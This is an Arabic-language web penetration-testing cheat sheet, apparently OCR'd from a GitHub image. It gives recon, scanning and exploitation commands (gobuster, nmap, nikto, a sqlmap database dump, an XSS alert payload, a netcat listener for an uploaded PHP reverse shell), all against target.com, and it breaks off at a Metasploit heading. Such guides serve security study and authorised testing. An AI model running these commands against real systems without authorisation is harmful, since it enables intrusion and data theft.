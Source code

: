 ```bash
gobuster dir -u https://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

✅ **جلب معلومات DNS:**

```bash
dig target.com
```

✅ **البحث عن أخطاء في الكود (Open-Source Intelligence - OSINT)**

- البحث عن تسريبات في **GitHub**
- البحث عن الدومين في **Shodan**

```bash
shodan search target.com
```

---

### **2️⃣ فحص الثغرات (Scanning & Enumeration)**

✅ **البحث عن المنافذ المفتوحة:**

```bash
nmap -sV -sC -T4 target.com
```

✅ **فحص ثغرات الـ Web باستخدام Nikto:**

```bash
nikto -h https://target.com
```

✅ **البحث عن SQL Injection:**

```bash
sqlmap -u "https://target.com/login.php?id=1" --dbs
```

---

### **3️⃣ استغلال الثغرات (Exploitation)**

✅ **XSS Injection**

```html
<script>alert('Hacked!')</script>
```

✅ **رفع Shell عبر File Upload Bypass**

- رفع ملف **PHP Reverse Shell**
- الاتصال بالسيرفر باستخدام Netcat:

```bash
nc -lvnp 4444
```

✅ **اختراق باستخدام Metasploit**
